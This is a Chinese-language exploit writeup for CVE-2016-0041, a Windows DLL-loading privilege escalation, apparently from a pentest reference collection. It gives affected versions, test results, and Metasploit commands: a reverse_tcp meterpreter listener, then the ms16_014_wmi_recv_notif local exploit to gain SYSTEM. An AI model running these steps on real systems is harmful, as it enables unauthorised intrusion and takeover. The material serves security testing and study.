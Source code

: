 ### CVE-2016-0041

#### 描述

错误处理了DLL加载，从而允许本地加载获得特权。

#### 影响版本

| Product             | Version | Update | Edition | Tested                   |
| ------------------- | ------- | ------ | ------- | ------------------------ |
| Windows 10          | -       |        |         |                          |
| Windows 10          | 1511    |        |         |                          |
| Windows 7           |         | SP1    |         | :heavy_check_mark:       |
| Windows 8.1         |         |        |         |                          |
| Windows Rt 8.1      |         |        |         |                          |
| Windows Server 2008 |         | SP2    |         | :heavy_multiplication_x: |
| Windows Server 2008 | R2      | SP1    |         | :heavy_multiplication_x: |
| Windows Server 2012 |         |        |         | :heavy_multiplication_x: |
| Windows Server 2012 | R2      |        |         | :heavy_multiplication_x: |
| Windows Vista       |         | SP2    |         |                          |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2016-0041
```

#### 利用方式

测试了网上能够找到的c++代码版本，Windows 7 x86/x64都会蓝屏，Windows Server 2008/2012所有版本都没反应，所有这边只能使用MSF版本。MSF版本中只有`payload/windows/x64/meterpreter/reverse_tcp`版本的反弹shell能够利用，`payload/windows/meterpreter/reverse_tcp`版本利用失败

测试系统Windows 7 sp1 x64，首先进行监听

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.9
set lport 12345
run
```

可以看到如下的反弹shell

![CVE-2016-0041_win7_sp1_x64_01](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0041_win7_sp1_x64_01.png?raw=true)

接着使用提权漏洞

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set session 2#你当前的session
run
```

![CVE-2016-0041_win7_sp1_x64_02](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0041_win7_sp1_x64_02.png?raw=true)

可以看到我们最后成为了SYSTEM权限